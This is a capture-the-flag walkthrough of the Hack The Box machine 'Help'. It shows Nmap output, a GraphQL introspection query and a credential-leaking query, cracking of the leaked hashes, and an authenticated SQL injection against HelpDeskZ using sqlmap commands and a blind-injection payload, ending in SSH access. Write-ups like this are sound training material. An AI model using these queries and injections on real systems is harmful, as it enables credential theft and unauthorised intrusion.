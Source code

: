 # Help - Second way

There is another way of doing the box. If we check our Nmap scan again we see that there is Node.js on port 3000:

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking Node.js Express framework (Port 3000)

If we browse to the web page on port 300 we get a Node.js API with one message saying:
> message: "Hi Shiv, To get access please find the credentials with given query"

This is a hint to look out for **GraphQL** on the server and we find the path **/graphql** on the page that says:
> GET query missing.

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
10.10.10.121:3000/graphql?query={__schema\%20{\%0atypes\%20{\%0aname\%0akind\%0adescription\%0afields\%20{\%0aname\%0a}\%0a}\%0a}\%0a}

URL-decoded:
{__schema {
  types {
    name
    kind
    description
    fields {
      name
      }
    }
  }
}
```

We see there is a _User Object_ with two values _username and password_:

![Interesting user objects](https://kyuu-ji.github.io/htb-write-up/help/help_user-objects.png)

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
{ user {
  username, password
  }
}

URL-encoded:
10.10.10.121:3000/graphql?query={+user+{+username,+password+}+}
```

This gives us the values for username and password:
```json
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

This hash is 32 characters long, so it is probably MD5 and we find it on hashes.org:
> godhelpmeplz

These are credentials for the **ServiceDeskZ** portal that is running on port 80.

## Checking HTTP (Port 80)

There are two vulnerabilites that both work for the version lower than 1.0.2 and we know that the version is exactly that.
- HelpDeskZ 1.0.2 - Arbitrary File Upload
- HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

This time we will use the **Authenticated SQL Injection** because we are authorized with the credentials we found on Node.js.

### SQL Injection exploit

Before we can use this exploit we need to create a ticket with an attachment:

![Creating ticket](https://kyuu-ji.github.io/htb-write-up/help/help_creating-ticket.png)

Sending the location of the attachment to Burpsuite:
```markdown
GET /support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 HTTP/1.1
Host: 10.10.10.121
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=english; PHPSESSID=lq1cfc4t3upb5p4pqcpmftcnb1; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BF17KMZ44LDq7MJ4o4ZDbx1GAgeVnXUZaVQLevzMj3ugw%3D%3D
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

We will save this request to a file so we can send it to **SQLMap**:
```markdown
sqlmap -r help.req --batch
```

Then we dump the contents of the database:
```markdown
sqlmap -r help.req --dump
```

Here we will find the table named **staff** that is important.

We will write a Python script to automate the process of this SQL Injection, that can be found in this folder named **help-sqli.py**.
```markdown
/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 and substr((select password from staff limit 0,1),0,1) = 'a'
```

Running that script will iterate through every character of the hash of the password of the Administrator. If we let run SQLMap long enough this hash will be found, too.
> d318f44739dced66793b1a603028133a76ae680e

This hash is 40 characters long and thus probably SHA1. On hashes.org we find this hash and the password is:
> Welcome1

Starting a SSH session with the user _help_ and this password works and we have a shell:
```markdown
ssh help@10.10.10.121
```
